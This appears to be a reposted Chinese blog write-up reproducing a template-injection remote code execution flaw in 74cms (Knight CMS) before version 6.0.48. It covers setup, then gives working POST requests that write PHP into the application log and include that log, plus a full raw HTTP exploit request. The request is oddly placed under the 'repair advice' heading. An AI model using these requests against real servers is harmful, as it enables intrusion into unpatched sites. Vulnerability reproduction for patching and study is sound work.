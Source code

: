 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Jwi21tojlEj-2NF0nydaGQ)

**一、骑士 CMS 简介**

骑士人才系统, 是一项基于 PHP+MYSQL 为核心开发的一套 免费 + 开源 专业人才招聘系统，使用了 ThinkPHP 框架（3.2.3）；由太原迅易科技有限公司于 2009 年正式推出。为个人求职和企业招聘提供信息化解决方案, 骑士人才系统具备执行效率高、模板切换自由、后台管理功能灵活、模块功能强大等特点，自上线以来一直是职场人士、企业 HR 青睐的求职招聘平台。经过 7 年的发展，骑士人才系统已成国内人才系统行业的排头兵。系统应用涉及政府、企业、科研教育和媒体等行业领域，用户已覆盖国内所有省份和地区。2016 年全新推出骑士人才系统基础版，全新的 “平台 + 插件” 体系，打造用户 “DIY” 个性化功能定制，为众多地方门户、行业人才提供一个专业、稳定、方便的网络招聘管理平台，致力发展成为引领市场风向的优质高效的招聘软件

**二、环境搭建**


==============

此次采用 windows10+Nginx+MySQL+PHP，使用 phpstudy 进行的环境配置，注意 PHP 版本最好使用 PHP 5.5 及以上，MySQL 版本 5.7.6 及以上，我这里使用 PHP 版本 5.4.45

然后这里放一下骑士 cms 的下载链接:https://pan.hallolck.com/s/y06I6

**三、安装过程**


==============

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGicoAP7KAOdlQKQH7icgPrVvd95pknLRgAEfDicbplLJ9Cia19PODjjRVWdA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGicgGqHicRiaBheHxicetKshNUddiablLYruE76ytRUWA5Bu3zrrMcXdzib8Bw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGic74ywjKznASBpH22nUDVuCjcE4fS1ibIGIibZhmmtaxKbND4LNejy5S1A/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGicqribu12sm7df7BDmHf8GFMX3cho0l98IUSXjmicUdrGhljniblVykEstw/640?wx_fmt=png)

**四、漏洞概述**


==============

官方公告地址


----------

```
http://www.74cms.com/news/show-2497.html
```

/Application/Common/Controller/BaseController.class.php 文件的 assign_resume_tpl 函数因为过滤不严格，导致了模板注入，可以进行远程命令执行

**影响版本: 骑士 CMS < 6.0.48>**


------------------------------

**五、漏洞复现**


==============

**写入日志**

POST 参数：

```
http://your-ip/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

我们来 POST 一下看看

 可以看到返回了错误，日志已经记录了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGicrxOfnV3cBe7QicQ22G0T0nATsXkI39odfFWhH7uCmI82M69G7UVftEg/640?wx_fmt=png)

我们来翻一下日志

成功写入

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGictBfqpTfB2Jhf8gJPdaibpOlov0IJia88jZNnNpVouNOOb1V774LE5qpQ/640?wx_fmt=png)

接下来我们尝试包含日志，日志名称就是测试当天的年月日

**包含日志**


------------

POST 参数：

```
日志路径: \upload\data\Runtime\Logs\Home
```

我们来 POST 一下看看

```
http://your-ip/index.php?m=home&a=assign_resume_tpl 
POST: 
variable=1&tpl=data/Runtime/Logs/Home/20_12_22.log
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouMUia0v5ARmBm1jiaX9h7sjGicJ9QLXAHXnNHreCAXcuSDEz3q0wL7AmpjDAwrHFRib2zM9tibtHkNZkfQ/640?wx_fmt=png)

**六、修复建议**  



=================

下载官方最新补丁包

```
POST /74cmsv6.0.20/upload/index.php?m=home&a=assign_resume_tpl HTTP/1.1
Host: 192.168.1.6
Content-Length: 52
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.6/74cmsv6.0.20/upload/index.php?m=home&a=assign_resume_tpl
DNT: 1
Connection: close
Cookie: PHPSESSID=vj12p9l3pnqkc09ostum5m7mfu; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

variable=1&tpl=./data/Runtime/Logs/Home/21_07_01.log
```
